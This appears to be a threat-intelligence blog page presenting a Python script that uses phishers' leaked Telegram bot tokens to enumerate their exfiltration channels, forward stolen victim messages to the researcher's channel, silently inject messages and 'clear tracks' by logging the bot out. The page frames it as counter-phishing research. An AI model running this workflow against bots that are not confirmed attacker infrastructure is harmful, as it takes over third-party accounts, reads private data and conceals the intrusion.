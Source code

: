 ```yaml
---
layout: phishing-campaign-default
title:  "Telegram Enumeration"
date:   2025-08-07
description: "qwerty"
author: "RedDuck"
tags: threat-intel
---
```


<style>
    body, html {
  background: #F3F5FF;
  font-family: 'Roboto', sans-serif;
}

* {
  box-sizing: border-box;
}

.Container {
  width: 500px;
  border-radius: 6px;
  position: relative;
  background: #282B36;
  margin: 60px auto 0 auto;
  box-shadow: 0 10px 40px 0 rgba(40,43,54,0.30);
  
  nav {
    top: 15px;
    left: 15px;
    position: absolute;
    
    a {
      z-index: 2;
      color: #A5AAAF;
      font-size: 13px;
      padding: 5px 8px;
      border-radius: 4px;
      display: inline-block;
      text-decoration: none;
      &:hover, &.active { color: white; }
    }
    
    .current {
      top: 0;
      left: 0;
      z-index: 0;
      width: 40px;
      height: 22px;
      border-radius: 3px;
      position: absolute;
      background-color: rgba(white, .2);
    }
  }
}

.Container .Contents {
  width: 100%;
  display: flex;
  overflow: hidden;
  align-items: flex-start;
}

.Container .Content {
  width: 100%;
  flex-shrink: 0;
  color: #FFFFFF;
  font-size: 15px;
  line-height: 24px;
  padding: 60px 30px 30px 30px;
  
  .hljs  {
    padding: 0; 
    font-size: 13px;
    line-height: 24px;
    font-family: Consolas, Monaco, monospace;
  }
}

.hljs-number { color: #FFC24C }

.credit {
  left: 50%;
  bottom: 30px;
  width: 300px;
  position: fixed;
  text-align: center;
  margin-left: -150px;
  
  p {
    color: #6C738B;
    font-size: 13px;
    font-weight: 300;
    line-height: 20px;
  }
  
  p a {
    color: #32325D;
    font-weight: 400;
    text-decoration: none;
  }
  
  p a:hover { color: #5C33FF; }
}
<style>

In order to facilitate research into attacks which use Telegram to exfiltrate victim information, as well as seek out the appropriate entities to which to report the crimes, we rely on using native Telegram bot API endpoints to enumerate attacker information.

Note: this requires that the attacker leaves their bot token and channel ID available, whether in a config file or a network request.

THESE WORKFLOWS SHOULD NOT BE USED AGAINST NON-ATTACKER CHANNELS. WE ONLY ANALYZE SITES SUBMITTED TO PHISHTANK.ORG, AND ARE CONFIMRED TO BE VALID PHISHES.

<div class="Container">
  <nav>
    <div class="current"></div>
    <a href="#one" class="active">Python</a>
  </nav>
  <div class="Contents">
    <div class="Content" id="one">
    <pre><code>
    from datetime import datetime
    import requests
    import time
    import os

    USING = "BOT_TOKEN1"

    BOT_TOKENS = {"BOT_TOKEN1": "{BOT-TOKEN}"}

    CHANNEL_IDS = {"BOT_TOKEN1": "{BOT-CHANNEL}"}

    MY_CHANNEL_IDS = {"BOT_TOKEN1": "{YOUR-CHANNEL}"}

</code></pre>
  </div>
  </div>
</div>

<div class="credit">
  <p>The code snippet format are taken from Stripe's <a href="https://stripe.com/docs/api#create_charge" target="_blank">incredible documentation</a></p>
</div>

<!-- ```python
from datetime import datetime
import requests
import time
import os

USING = "BOT_TOKEN1"

BOT_TOKENS = {"BOT_TOKEN1": "{BOT-TOKEN}"}

CHANNEL_IDS = {"BOT_TOKEN1": "{BOT-CHANNEL}"}

MY_CHANNEL_IDS = {"BOT_TOKEN1": "{YOUR-CHANNEL}"}

URL = f"https://api.telegram.org/{BOT_TOKENS[USING]}/" 

# Workflow that will gather data specific to the channel that the attackers are using to exfiltrate data. If the channel ID is not known, you can use 
# determine this value by interacting with the attacker's bot; the response you receive will likely contain the ID of the channel used to exfiltrate victim data
channel_endpoints = {
    "getChatAdministrators":f"getChatAdministrators?chat_id={CHANNEL_IDS[USING]}",
    "getChat":f"getChat?chat_id={CHANNEL_IDS[USING]}",
    "getChatMembersCount":f"getChatMembersCount?chat_id={CHANNEL_IDS[USING]}",
    "createChatInviteLink":f"createChatInviteLink?chat_id={CHANNEL_IDS[USING]}",
}

# Workflow that will gather data on the bot, such as 
# - Name
# - Recent updates
# - Description
# and other general information that can be used later.
gen_endpoints = {
    "getUpdates":"getUpdates",
    "getWebhookInfo":"getWebhookInfo",
    "getMe":"getMe",
    "getMyCommands":"getMyCommands",
    "getMyName":"getMyName",
    "getMyDescription":"getMyDescription",
    "getAvailableGifts":"getAvailableGifts",
    "getWebhookInfo":"getWebhookInfo",
}

# Workflow that will remove evidence of your interaction with the attacker's bot. These endpoints will
# - Leave the chat you created to enumerate stolen data
# - Close the bot
# - Log the bot out
clear_tracks = {
    "leaveChat":f"leaveChat?chat_id={MY_CHANNEL_IDS[USING]}",
    "close":f"close",
    "logOut":f"logOut"
}

# Workflow that will send data specified by you to the attacker's channel. By default, this workflow sends empty messages, and disables notifications, so as to minimize the likelihood that the attacker will immediately detect any anomolous behavior. You may use this workflow to pollute the attacker's
# dataset, enumerate channel ID(s), etc.
sendMessage = {
    "sendMessage":f"sendMessage?text=''&chat_id={MY_CHANNEL_IDS[USING]}&disable_notification=True"
}

# Workflow to enumerate what data the attackers have stolen. 
forwardMessage = {
    "forwardMessage": f"forwardMessage?chat_id={MY_CHANNEL_IDS[USING]}&from_chat_id={CHANNEL_IDS[USING]}&message_id="
}

folder = f"{USING}-{datetime.today().strftime('%m-%d-%y')}"
try:
    os.mkdir(f"{folder}")
except:
    print("Folder already exists")
os.chdir(f"{folder}")

def enumerate():
    for inc in range(X,Y): 
        for key in forwardMessage.keys():
            looking_at = key
            response = requests.get(URL+forwardMessage[looking_at]+str(inc))
            print(response.text)
            if "Too Many Requests: retry after" not in response.text and "Bad Request: message to forward not found" not in response.text:
                with open(f"{looking_at}.json","a") as a:
                    a.write(f"{response.text}\n")
    
def query_endpoint(endpoint):
    for key in endpoint.keys():
        looking_at = key
        response = requests.get(URL+endpoint[looking_at])
        print(response.text)
        if '{"ok":true' in response.text:
            with open(f"{looking_at}.json","a") as a:
                a.write(f"{response.text}\n")

def initial_recon():
    query_endpoint(gen_endpoints)
    query_endpoint(channel_endpoints)

STAGE = "3"

match STAGE:
    case "1":
        initial_recon()
    case "2":
        enumerate()
    case "3":
        query_endpoint(clear_tracks)

os.chdir("..")
``` -->